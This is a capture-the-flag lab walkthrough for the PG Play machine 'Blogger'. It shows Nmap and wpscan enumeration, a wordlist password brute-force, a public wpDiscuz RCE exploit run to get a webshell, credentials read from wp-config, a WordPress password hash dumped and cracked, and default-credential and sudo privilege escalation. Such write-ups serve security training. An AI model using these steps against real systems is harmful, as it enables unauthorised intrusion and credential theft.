






# PG Play
------------------------------------
### IP: 192.168.176.217
### Name: Blogger
### Difficulty: Easy
### Community Rating: Hard
--------------------------------------------

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/PG/Play/Blogger]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 192.168.176.217
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-06 09:48 CDT
Nmap scan report for 192.168.176.217
Host is up (0.069s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 951d828f5ede9a00a80739bdacadd344 (RSA)
|   256 d7b452a2c8fab70ed1a8d070cd6b3690 (ECDSA)
|_  256 dff24f773344d593d77917455aa1368b (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Blogger | Home
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.58 seconds
```

Taking a look at the site on port 80 we find a blog:


We also notice a potential username James.

Using some directory we fuzzing we find an `/assets` directory.

Not seeing much and trying to widen my directory scanning scope, I'm not finding anything of interest.

However when I finally started clicking around in the various sub-directories in `/assets` I find `/assets/fonts/blog`



Clicking on the link the browser attmepts to load blogger.pg, so lets add the to `/etc/hosts`

We can now access the real blog:



And looking more closely we see the username j@m3s and that the blog is using WordPress.

It took me a bit longer than I'd care to admit to find the WP content. Very sneaky placing it in `/assets/fonts`, which is something most people won't properly enumerate. Good lesson to leave no stone unturned when enumerating.

Before clicking around the blog, I'll fire up wpscan and get that running while I look around:

```
┌──(ryan㉿kali)-[~/PG/Play/Blogger]
└─$ wpscan --url http://blogger.pg/assets/fonts/blog/ --enumerate vp,u,vt,tt

_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://blogger.pg/assets/fonts/blog/ [192.168.176.217]
```

Interestingly the blog is all about the OWASP Top 10 Vulnerabilities.

Going back to our scan, it confirmed the user j@m3s, as well as discovered an `/wp-content/uploads` directory, but didn't find any plugins or major vulnerabilities for us. This is probably because I'm not using an api token with the scan.

Lets kickoff a plugin detection scan with:

```
wpscan --url http://blogger.pg/assets/fonts/blog/ --enumerate ap --plugins-detection aggressive
```

As well as try to bruteforce j@m3s' password:

```
wpscan --url http://blogger.pg/assets/fonts/blog/ --wp-content-dir wp-admin --usernames j@m3s --passwords /usr/share/wordlists/rockyou.txt
```

No luck with the password bruteforce, but the plugin scan revealed an interesting plugin: wpdiscuz



Searching for exploits I find an unauthenticated RCE exploit: https://www.exploit-db.com/exploits/49967

Looks like this script exploits a vulnerability in the plugin and loads a PHP webshell. Lets give it a shot:

### Exploitation

Running the script and specifying a blog post with:

```
python3 wpDiscuz_RemoteCodeExec.py -u http://blogger.pg/assets/fonts/blog -p '/?p=29'
```

Gets us a pseudo-shell to work out of:



Lets set up a netcat listener so we can get a proper reverse shell:


Nice, we can now grab the local.txt flag:



### Privilege Escalation

Because I know the site is running WordPress, I always try to get access to the wp-config file right off the bat.

Nice, we found some credentials:
```
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'sup3r_s3cr3t');

/** MySQL hostname */
define('DB_HOST', 'localhost');
```

I can then use these credentials to login to mysql:
```
</www/wordpress/assets/fonts/blog$ mysql -u root -psup3r_s3cr3t              
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 9
Server version: 10.0.38-MariaDB-0ubuntu0.16.04.1 Ubuntu 16.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| wordpress          |
+--------------------+
4 rows in set (0.00 sec)

MariaDB [(none)]> use wordpress;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [wordpress]> show tables;
+-----------------------------+
| Tables_in_wordpress         |
+-----------------------------+
| wp_commentmeta              |
| wp_comments                 |
| wp_links                    |
| wp_options                  |
| wp_postmeta                 |
| wp_posts                    |
| wp_term_relationships       |
| wp_term_taxonomy            |
| wp_termmeta                 |
| wp_terms                    |
| wp_usermeta                 |
| wp_users                    |
| wp_wc_avatars_cache         |
| wp_wc_comments_subscription |
| wp_wc_feedback_forms        |
| wp_wc_follow_users          |
| wp_wc_phrases               |
| wp_wc_users_rated           |
| wp_wc_users_voted           |
+-----------------------------+
19 rows in set (0.00 sec)

MariaDB [wordpress]> select * from wp_users;
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email        | user_url | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+--------------+
|  1 | j@m3s      | $P$BqG2S/yf1TNEu03lHunJLawBEzKQZv/ | jm3s          | admin@blogger.thm |          | 2021-01-17 12:40:06 |                     |           0 | j@m3s        |
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+--------------+
1 row in set (0.00 sec)
```
Unfortunately, I was unable to crack this hash using hashcat:
```
hashcat james_hash /usr/share/wordlists/rockyou.txt -m 400
```

Going back to the `/home` directory I can see there is a user vagrant. Vagrant default credentials can be vagrant:vagrant, so lets try to `su vagrant` with vagrant for the password:

```
www-data@ubuntu-xenial:/home$ ls
james  ubuntu  vagrant
www-data@ubuntu-xenial:/home$ su vagrant
Password: 
vagrant@ubuntu-xenial:/home$ whoami
vagrant
```

Nice, that worked! 

Checking out what user vagrant can do
```
vagrant@ubuntu-xenial:/data$ sudo -l
Matching Defaults entries for vagrant on ubuntu-xenial:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vagrant may run the following commands on ubuntu-xenial:
    (ALL) NOPASSWD: ALL
```

We see we can do whatever want with sudo. Lets just `sudo su root` and grab the final flag:



Thanks for following along!

-Ryan

--------------------------------------------------
